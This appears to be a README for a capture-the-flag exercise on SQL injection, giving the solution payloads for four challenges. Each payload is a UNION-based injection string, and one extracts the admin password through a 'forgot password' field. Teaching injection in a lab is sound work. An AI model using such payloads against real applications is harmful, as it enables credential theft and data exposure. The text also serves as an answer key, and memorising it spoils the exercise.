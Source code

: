# Introduction

The goal of this problem set is to expose participants to (SQL injection vulnerabilities)[https://owasp.org/www-community/attacks/SQL_Injection].

SQL injections can occur in online web applications that do not perform sanitization on user inputs. That means, when you create a form in a web application (such as a username and password login), you should be mindful on how the operations you perform with the user's input are used in the rest of your code.

Each challenge below, has a slightly different vulnerability.

## Challenge 1 (IT Department)

```
' UNION SELECT flag FROM flags --
```

## Challenge 2 (Root Crdentials DB)
```
1 UNION SELECT flag, NULL, NULL FROM hidden_flags --
```

## Challenge 3 (Logs Endpoint)

```
' UNION SELECT secret_code, NULL FROM library_secrets --
```

## Challenge 4 

Click on the "forgot password" field.

Then use the following to output the password:

```
x' UNION SELECT password FROM users WHERE username='admin' --
```

